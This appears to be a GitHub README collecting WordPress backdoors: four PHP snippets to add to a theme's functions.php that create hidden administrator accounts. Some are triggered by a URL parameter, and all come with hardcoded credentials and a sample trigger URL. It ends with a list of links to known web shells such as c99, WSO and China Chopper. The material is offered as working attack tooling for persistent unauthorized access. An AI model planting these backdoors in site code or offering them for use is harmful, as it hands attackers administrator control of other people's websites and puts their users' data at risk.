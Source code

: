 ![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/link-in-bio-backdoor-and-web.png?raw=true)

## Backdoor-01 (add to theme functions.php)






```bash

function wpb_admin_account(){
$user = ‘minhaz’;
$pass = ‘pass’;
$email = ’email@email.em’;
if ( !username_exists( $user ) && !email_exists( $email ) ) {
$user_id = wp_create_user( $user, $pass, $email );
$user = new WP_User( $user_id );
$user->set_role( ‘administrator’ );
}
}
add_action(‘init’,’wpb_admin_account’);
```
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/Screenshot_1.png?raw=true)
## Backdoor-02 (add to theme functions.php)






```bash

<?php
add_action(‘wp_head’, ‘WordPress_backdoor’);
function WordPress_backdoor() {
If ($_GET[‘backdoor’] == ‘go’) {
require(‘wp-includes/registration.php’);
If (!username_exists(‘backdooradmin’)) {
$user_id = wp_create_user(‘backdooradmin’, ‘Pa55W0rd’);
$user = new WP_User($user_id);
$user->set_role(‘administrator’);
}
}
}
?>

```
https://www.targetdomain.com?backdoor=go
- User: backdooradmin
 - Password: Pa55W0rd




## Backdoor-03 (add to theme functions.php)






```bash

add_action( 'wp_head', 'my_backdoor' );

function my_backdoor() {
    if ( md5( $_GET['backdoor'] ) == '34d1f91fb2e514b8576fab1a75a89a6b' ) {
        require( 'wp-includes/registration.php' );
        if ( !username_exists( 'cyber_insect99' ) ) {
            $user_id = wp_create_user( 'cyber_insect99', 'pass' );
            $user = new WP_User( $user_id );
            $user->set_role( 'administrator' ); 
        }
    }
}


```
https://www.targetdomain.com?backdoor=go
- User: cyber_insect99
 - Password: pass

## Backdoor-04 (add to theme functions.php)



```bash

$new_user = new Wp_User(wp_create_user('user','password'));
$new_user->set_role('administrator');




```
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/backdoor%20on%20wp%20site.png?raw=true)
### Then go to 'users' option on wordpress deshboard the you will see  a new user .
- User: user
 - Password: password


# Web Shell
# 
![Logo](https://github.com/jco666/alfa-shell/raw/master/readme_1.png)
 - [Alpha Web Shell ](https://github.com/nicolauns/alfa-shell )
 - [ASPXSpy Web Shell:](https://github.com/tennc/webshell/blob/master/net-friend/aspx/aspxspy.aspx)
 - [C99 Backdoor Web Shell](https://github.com/tennc/webshell/tree/master/php/PHPshell/c99shell)
 - [China Chopper Shell](https://github.com/tennc/webshell/tree/master/caidao-shell)
 - [ IndoXploit Shell (IDX Shell) ](https://github.com/linuxsec/indoxploit-shell)
 - [WSO Web Shell](https://github.com/tennc/webshell/tree/master/php/wso)
  - [B374k PHP Shell](https://github.com/b374k/b374k)
   - [r57 Shell](https://github.com/tennc/webshell/tree/master/138shell/R)
